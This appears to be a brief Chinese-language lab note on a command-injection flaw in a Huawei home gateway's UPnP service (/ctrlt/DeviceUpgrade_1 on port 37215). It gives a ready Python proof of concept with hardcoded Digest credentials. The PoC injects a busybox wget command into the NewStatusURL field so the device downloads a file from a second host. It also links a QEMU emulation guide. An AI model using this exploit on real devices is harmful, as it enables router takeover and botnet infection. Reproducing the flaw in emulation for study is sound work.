

MIPS 32 BE


在`/bin/upnp`下：




很简单了。

PoC：

```py
import requests

headers = {
    "Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
}

data = '''<?xml version="1.0" ?>
 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
   <NewStatusURL>;/bin/busybox wget -g 172.16.16.17 -l /tmp/1 -r /1;</NewStatusURL>
   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
  </u:Upgrade>
 </s:Body>
</s:Envelope>
'''
requests.post('http://172.16.16.21:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data)
```


可以跟着这篇看看怎么qemu：

```
https://xz.aliyun.com/t/4819?time__1311=n4%2Bxni0Qi%3DDQitma40HwbDyDmx7uKDvP05qwI%3DQx
```

但模拟起来好麻烦啊。。。